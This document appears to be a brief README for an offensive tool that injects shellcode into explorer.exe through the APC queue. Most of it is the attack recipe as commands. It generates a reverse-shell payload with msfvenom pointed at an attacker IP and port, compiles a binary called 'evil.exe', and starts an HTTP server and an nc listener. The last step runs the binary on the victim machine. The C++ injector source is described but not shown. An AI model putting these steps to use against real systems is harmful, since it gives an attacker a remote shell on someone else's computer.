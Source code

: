 # Attacker server
- Create malicious shellcode by msfvenom
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.138 LPORT=4444 -f c
```
- Create a C++ file that find explorer.exe to inject shellcode into it APC Queue
- Compile exe file from C++ file:
```bash
x86_64-w64-mingw32-g++ -o evil.exe evil.cpp -static-libgcc -static-libstdc++
```
- Run listening server
```bash
python -m http.server 80
nc -nvlp 4444
```

# Victime machine
```bash
.\evil.exe PID
```
